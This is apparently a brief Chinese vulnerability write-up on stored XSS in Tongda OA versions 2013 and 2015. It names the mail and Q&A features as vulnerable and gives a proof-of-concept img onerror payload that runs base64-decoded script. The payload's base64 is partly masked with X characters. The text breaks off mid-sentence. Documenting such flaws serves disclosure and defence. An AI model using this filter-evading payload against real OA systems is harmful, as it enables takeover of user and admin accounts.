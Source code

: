 通达oa xss
==========

一、漏洞简介
------------

二、漏洞影响
------------

2013、2015版本

三、复现过程
------------

发邮件的地方、问题问答的地⽅都存在XSS，可获取他人账号权限。⼀般情况下，OA会有前端进行过滤，
所以抓包时候去添加payload，之后会对事件进行过滤，所以使用

poc

    <img src=x onerror=eval(atob('cz1jcmVXXXXXytNYXRoXXXXXXXXhbmRvbSgp'))>

![](resource/通达oaxss/media/rId24.png)

![](resource/通达oaxss/media/rId25.png)

这个漏洞获取admin权限⾮
